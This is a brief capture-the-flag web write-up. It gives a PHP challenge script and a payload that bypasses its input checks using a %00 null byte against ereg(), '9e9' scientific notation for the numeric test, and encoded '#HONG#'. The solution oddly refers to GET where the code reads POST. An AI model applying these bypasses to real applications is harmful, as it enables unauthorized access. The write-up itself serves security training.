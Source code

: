 # Challenge 
```php 
<?php  
  if (isset($_GET['view-source'])) {
  header('Location: http://challenge1.xa.honyasec.com/index.php');
  show_source(__FILE__);
         exit();
    }
if (isset($_POST["submit"]))  
{
  if (isset($_POST['hihi']))
  {
    if (ereg("^[a-zA-Z0-9]+$", $_POST['hihi']) === FALSE)
    {
      exit('<script>alert("have fun:)")</script>');
    }
    elseif (strlen($_POST['hihi']) < 11 && $_POST['hihi'] > 999999999)
    {
      if (strpos($_POST['hihi'], '#HONG#') !== FALSE)
      {
        if (!is_array($_POST['hihi'])) {
        include("flag.php");
        echo "Congratulations! FLAG is : ".$flag;
        }
        else
      {
        exit('<script>alert("nonono")</script>');
      }
      }
      else
      {
        exit('<script>alert("nonono")</script>');
      }
    }
    else
    {
      exit('<script>alert("sorry")</script>');
    }
  }
}
?>
<a href="?view-source">view-source</a>  
```

# Solution

```
Greg() 用%00绕过

if (strlen($_GET['hihi']) < 11 && $_GET['hihi'] > 999999999）
用科学计数法 9e9

strpos($_GET['hihi'], '#HONG#')
加上%23HONG%23

```

payload

```
?submit=1&hihi=9e9%00%23HONG%23
```

# Refference

+ [2016第二届陕西省网络空间安全大赛: 0x01 web](https://www.ycjcl.cc/2016/05/29/di-er-jie-shan-xi-sheng-wang-luo-kong-jian-an-quan-da-sai-writeup/)

